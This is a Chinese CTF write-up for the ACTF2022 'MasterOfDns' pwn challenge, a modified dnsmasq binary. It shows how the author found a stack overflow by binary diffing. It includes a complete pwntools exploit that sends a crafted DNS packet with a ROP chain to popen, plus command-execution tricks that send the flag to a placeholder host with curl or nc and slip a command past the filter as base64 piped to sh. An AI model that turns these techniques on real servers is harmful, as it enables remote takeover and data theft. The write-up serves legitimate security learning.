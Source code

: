 ```yaml
---
layout: article
pageview: true
key: 2022-07-22-actf2022-master-of-dns
title: ACTF2022-MasterOfDns题解
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


这题真是令我收获良多，学到很多新姿势。

本来是Mark佬复现的一道题目，鄙人随口说到~~32位的rop还不秒了？~~，结果猛调了两天，令人感叹😋。
<!--more-->

### 初见题目

[题目连接](https://adworld.xctf.org.cn/match/list?event_hash=ba9b2b4c-7265-45ce-aa4b-c917bc5ce1bc.event)

题目环境32位，没开`pie`和`canary`，根据题目给的README可以发现这是一个功能完备的DNS服务器，可以正常的dig。通过IDA打开后发现十分复杂，一下子无法确定漏洞在那个函数。

题目给了提示说源代码可以参考`dnsmasq`，我们通过文件中的字符串可以确定版本为`2.86`，编译环境`Ubuntu20`，遂编译一份和题目环境一样的可执行文件出来。

### 编译&Bindiff比较

我们可以在`dnsmasq`官网找到`2.86`版本的源代码，然后修改`Makefile`文件，令其编译参数如下
```
CFLAGS        = -Wall -W -fno-stack-protector -m32
LDFLAGS       = -m32 -no-pie
```
这里需要去掉`CFLAGS`里的`-O2`优化选项，如果有这一选项，编译出的文件与题目文件相比有43处大的函数不同，而去掉后只有2处，显然题目文件也去掉了该选项。

修改好后直接`make`即可编译，输出文件在`src/dnsmasq`。

我们可以使用`Bindiff`来方便的比较两个`elf`文件之间的区别，我们可以看到两个文件之间大约有10个相似度不为1的函数。我们双击点开对比，发现又一个函数只在结尾增加了一次`memcpy`，我们可以确定这里就是栈溢出的漏洞点。

![image.png](https://s2.loli.net/2022/07/22/nLhwyH3q56UovIi.png)

![image.png](https://s2.loli.net/2022/07/22/vGfEpxlACc3UBrn.png)

### 调试漏洞点

找到漏洞点后我们开始判断溢出的参数，通过阅读源代码以及`gdb`调试后，我们发现这里的`memcpy`会将我们请求中的域名部分复制到栈上去，我们只需要用`pwntools`来模拟DNS请求即可触发漏洞。

在~~学习了DNS报文格式~~WireShark抓包后，我们拿到了正常DNS请求的头和尾，中间的域名部分即是我们需要构造的`payload`，然而这部分有诸多限制。

例如我们要查询的域名是`baidu.com`，在报文中写成`\x05baidu\x03com\x00`，中间的`.`被替换为长度，而且每一节的长度最大为`0x3f`，所以我们的报文中间不能出现`\x00`和`\x2e`(chr(0x2e)='.')，而且长度表示与后面的字符串长度必须对应，否则都不能通过检查。

在用`gdb`调试程序时，需要切换为`root`用才能`attach`到程序，而且不能通过`gdb.debug()`来启动、调试程序，所以我创建了一个新的脚本来自动获取程序的`pid`并自动`attach`，结束调试后自动`kill`，需要在`root`用户下执行.

```shell
#!/bin/sh
port=9999
pid=$(netstat -nlp | grep :$port | awk '{print $7}' | awk -F"/" '{ print $1 }');
gdb -p $pid -iex="b *0x0804F444";

read -p "Press any key to resume ..." tmp;

if [  -n  $pid  ];  then
    kill  -9  $pid;
fi
```

由于我们是网络发包请求，所以不能通过什么途径来泄露`libc`地址，进一步使用`system`函数。我们查找程序的`plt`表，发现有一个`popen`函数可以利用，这个函数的效果与`system`类似，额外需要一个"r"或“w”字符串地址作为参数。

由于是32位环境，参数需要放在栈里，而我们既不知道栈地址，也不能找到合适的`gadget`来使用。这里我们可以通过IDA来找到程序里调用`popen`函数的相关汇编，可以找到如下代码
```
push edx;
push eax;
call popen;
```
这样我们不需要知道栈地址，只需要让`eax`为命令地址，`edx`为"r"或"w"字符串的地址即可。

而恰好`edx`里存着我们输入内容的附近的栈地址，我们通过一些`gadget`操作一番，即可设置`eax`寄存器。而字符串"r"也可以在`bss`段搜到，如此一来我们只需要反弹shell或反弹flag。

### 🐖🖊操作反弹flag


当时在这一步卡了好久，因为不管使用``curl(wget) aaa:bbb/`cat flag` `` 还是`cat flag|nc aaa bbb` 都只能建立连接而无法获取flag内容，最后使用``curl aaa:bbb/`pwd` ``测试才发现`popen`后的目录为根目录而不是启动的目录，没有flag文件自然不能获取内容。。。

这里介绍两种反弹flag的命令写法，由于我们的`payload`不能出现`.`符号，而这又是ip或域名中必备的组件，所以有以下方法绕过

1. Mark佬的方法，我们先将反弹flag命令用base64编码，比如说编码后的结果为`ABCD==`，那么`payload`就为`echo ABCD==|base64 -d|sh`
2. 鄙人的方法，其实ip可以写成10进制的方式，`1.2.3.4`转化为10进制的方法是`4+3*256+2*256^2+1*256^3`，结果为`16909060`，代替正常命令中的ip即可

### 完整exp
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context(arch='i386')
# context.terminal=['tmux','splitw','-h']

context.log_level = 'debug'


local = 0
_elf = './dns'
_libc = ''
_addr = '127.0.0.1'
_port = 9999


def getConn():
    if local == 1:
        return process(_elf)
    else:
        return remote(_addr, _port, typ='udp')


def debug(p, cmd=None):
    gdb.attach(p, cmd)
    pause()


r = process([_elf, '-C', './dns.conf'])
pause()



p = getConn()
elf = ELF(_elf)
ret=0x0804a00e
syscall=0x08054e54
p_eax=0x08059d44

str_r=0x80a650c

popen=0x08071802

pay=b''
pay+=(b'\x3f'+b'\xff'*0x3f)*14 #0x380
pay += b'\x3f'*2+p32(0xdeadbeef)+(p32(0x08059d44)+p32(0xffffffff-0x1f)+p32(0x0804b639)+p32(0xdeadbeef)*6+p32(0x0807ec72)+p32(str_r)+p32(popen)).ljust(0x3f-5, b'\xff')
pay += b'\x1f'+b'curl xxx:xxx/`cat flag`'  # 这里的0x1f为后面指令的长度+1(包含下一行的\x00)
pay += b'\x00'



payload = b''
payload += b'\xde\xad'  # ID
payload += b'\x01\x20'  # Flags
payload += b'\x00\x01\x00\x00\x00\x00\x00\x01'
payload += pay
payload += b'\x00\x01'
payload += b'\x00\x01'

p.send(payload)
p.interactive()
```